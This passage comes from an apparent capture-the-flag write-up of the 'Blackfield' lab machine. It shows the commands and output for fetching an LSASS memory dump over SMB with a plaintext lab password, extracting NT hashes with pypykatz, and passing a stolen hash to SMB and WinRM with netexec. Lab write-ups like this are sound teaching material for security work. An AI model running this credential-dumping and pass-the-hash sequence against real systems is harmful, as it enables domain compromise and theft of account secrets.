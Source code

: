 ```bash
```

Downloaded and extracted the content. We were right, it contains a backup of the LSASS process. 

```bash
smbclient -U blackfield.local\\audit2020%'Dusk3d123!' //10.129.229.17/forensic -c "cd memory_analysis; get lsass.zip" -t 240
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (302.9 KiloBytes/sec) (average 302.9 KiloBytes/sec)

unzip lsass.zip 
Archive:  lsass.zip
  inflating: lsass.DMP
```

Note: Remember to increase the timeout using the `-t 240` flag because of the file size.

*Pypykatz* returned three valuable hashes. Let’s try luck.

```bash
pypykatz lsa minidump lsass.DMP

== MSV ==
Username: DC01$
Domain: BLACKFIELD
LM: NA
NT: <REDACTED>

Username: svc_backup
Domain: BLACKFIELD
LM: NA
NT: <REDACTED>

Username: Administrator
Domain: BLACKFIELD
LM: NA
NT: <REDACTED>
```

The *svc_backup* user’s credentials are still valid. I’m starting to check WinRM after SMB even if the Nmap scan didn’t show that WinRM was open (TCP/5985) because [nmap4lazy](https://github.com/duskb1t/nmap4lazy) uses the `--min-rate` flag and it can cause false negatives if the connection is not stable.

```bash
netexec smb 10.129.229.17 -u "svc_backup" -H <REDACTED>
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\svc_backup:<REDACTED>

netexec winrm 10.129.229.17 -u "svc_backup" -H <REDACTED>
WINRM       10.129.229.17   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.129.229.17   5985   DC01             [+] BLACKFIELD.local\svc_backup:<REDACTED> (Pwn3d!)
```
